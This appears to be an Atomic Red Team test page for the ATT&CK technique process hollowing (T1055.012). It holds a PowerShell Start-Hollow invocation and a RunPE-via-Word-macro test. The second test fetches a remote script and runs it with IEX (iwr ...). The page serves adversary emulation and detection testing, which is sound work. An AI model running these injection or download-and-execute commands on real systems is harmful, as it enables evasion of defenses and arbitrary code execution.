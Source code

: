 # T1055.012 - Process Injection: Process Hollowing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/012)
<blockquote>Adversaries may inject malicious code into suspended and hollowed processes in order to evade process-based defenses. Process hollowing is a method of executing arbitrary code in the address space of a separate live process.  

Process hollowing is commonly performed by creating a process in a suspended state then unmapping/hollowing its memory, which can then be replaced with malicious code. A victim process can be created with native Windows API calls such as <code>CreateProcess</code>, which includes a flag to suspend the processes primary thread. At this point the process can be unmapped using APIs calls such as <code>ZwUnmapViewOfSection</code> or <code>NtUnmapViewOfSection</code>  before being written to, realigned to the injected code, and resumed via <code>VirtualAllocEx</code>, <code>WriteProcessMemory</code>, <code>SetThreadContext</code>, then <code>ResumeThread</code> respectively.(Citation: Leitch Hollowing)(Citation: Elastic Process Injection July 2017)

This is very similar to [Thread Local Storage](https://attack.mitre.org/techniques/T1055/005) but creates a new process rather than targeting an existing process. This behavior will likely not result in elevated privileges since the injected process was spawned from (and thus inherits the security context) of the injecting process. However, execution via process hollowing may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Hollowing using PowerShell](#atomic-test-1---process-hollowing-using-powershell)

- [Atomic Test #2 - RunPE via VBA](#atomic-test-2---runpe-via-vba)


<br/>

## Atomic Test #1 - Process Hollowing using PowerShell
This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 562427b4-39ef-4e8c-af88-463a78e70b9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow (executable that will run inside the sponsor) | string | C:&#92;Windows&#92;System32&#92;cmd.exe|
| parent_process_name | Name of the parent process | string | explorer|
| sponsor_binary_path | Path of the sponsor binary (executable that will host the binary) | string | C:&#92;Windows&#92;System32&#92;notepad.exe|
| spawnto_process_name | Name of the process to spawn | string | notepad|


#### Attack Commands: Run with `powershell`! 


```powershell
. "$PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - RunPE via VBA
This module executes notepad.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows


**auto_generated_guid:** 3ad4a037-1598-4136-837c-4027e4fa319b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
